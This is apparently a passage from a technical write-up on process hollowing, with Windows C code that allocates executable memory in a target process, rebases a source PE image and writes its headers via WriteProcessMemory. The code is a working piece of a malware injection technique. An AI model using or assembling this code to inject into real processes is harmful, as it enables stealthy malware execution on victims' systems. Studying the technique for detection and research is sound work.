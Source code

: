 	printf("Allocating memory\r\n");

	PVOID pRemoteImage = VirtualAllocEx
	(
		  pProcessInfo->hProcess,
		  pPEB->ImageBaseAddress,
		  pSourceHeaders->OptionalHeader.SizeOfImage,
		  MEM_COMMIT | MEM_RESERVE,
		  PAGE_EXECUTE_READWRITE
	);

	if (!pRemoteImage)
	{
		  printf("VirtualAllocEx call failed\r\n");
		  return;
	}
 
## Copying The Source Image
Now that memory has been allocated for the new image it must be copied to the process memory.  For the hollowing to work, the image base stored within the optional header of the source image must be set to the destination image base address. However, before setting it the difference between the two base addresses must be calculated for use in rebasing. Once the optional header is fixed up, the image is copied to the process via WriteProcessMemory starting with its portable executable headers. Following that, the data of each section is copied. 

	DWORD dwDelta = (DWORD)pPEB->ImageBaseAddress -
		  pSourceHeaders->OptionalHeader.ImageBase;

	printf
	(
		  "Source image base: 0x%p\r\n"
		  "Destination image base: 0x%p\r\n",
		  pSourceHeaders->OptionalHeader.ImageBase,
		  pPEB->ImageBaseAddress
	);

	printf("Relocation delta: 0x%p\r\n", dwDelta);

	pSourceHeaders->OptionalHeader.ImageBase = (DWORD)pPEB->ImageBaseAddress;

	printf("Writing headers\r\n");

	if (!WriteProcessMemory
	(
		  pProcessInfo->hProcess,                        
		  pPEB->ImageBaseAddress,
		  pBuffer,
		  pSourceHeaders->OptionalHeader.SizeOfHeaders,
		  0
	))
	{
		  printf("Error writing process memory\r\n");

		  return;
	}
